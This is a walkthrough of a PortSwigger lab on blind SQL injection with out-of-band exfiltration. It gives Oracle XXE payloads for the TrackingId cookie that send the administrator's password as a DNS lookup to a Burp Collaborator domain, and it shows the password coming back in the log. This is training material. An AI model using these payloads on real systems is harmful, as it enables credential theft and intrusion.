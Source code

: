 # Blind SQL Injection with Out-of-Band Data Exfiltration - [Link](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

**Goal**: Exploit a **blind SQL injection** vulnerability to **extract the administrator's password** using **out-of-band (OAST)** techniques.

This lab contains a blind SQL injection vulnerability in the `TrackingId` cookie. The SQL query runs **asynchronously**, which means the server doesn't show any visible sign of success or failure. Instead of using error-based or time-based techniques, we can **exfiltrate data** by triggering **DNS requests** to a domain we control (Burp Collaborator domain).


### Steps:

1. **Open Burp Suite Professional** and go to the **Burp Collaborator** tab.
2. Copy your unique Collaborator domain.
   For this lab, one of the provided domains was:

   ```
   918zwk36zaccx0fpbm2givebp2vtjk79.oastify.com
   ```
3. Visit the lab in your browser with Burp running.
4. Look for the `TrackingId` cookie in any request and inject the following **test payload** (Oracle DB specific):

   ```sql
   ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://918zwk36zaccx0fpbm2givebp2vtjk79.oastify.com/"> %remote;]>'),'/l') FROM dual)
   ```
5. Send the request and check **Burp Collaborator** for a DNS interaction.
6. Once confirmed, replace the static domain with a **dynamic one** containing the actual password:

   ```sql
   ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.918zwk36zaccx0fpbm2givebp2vtjk79.oastify.com/"> %remote;]>'),'/l') FROM dual)--
   ```
7. Send the request and **poll Collaborator** again.
8. You’ll receive a **DNS request** containing the password of the administrator.
   Example:

   ```
   The Collaborator server received a DNS lookup of type AAAA for:
   zpwt6c28dims3nb0jily.918zwk36zaccx0fpbm2givebp2vtjk79.oastify.com
   ```

   So, the **password is**:

   ```
   zpwt6c28dims3nb0jily
   ```
9. Go to the login page and log in as `administrator` using that password.


✅ **Lab Solved**
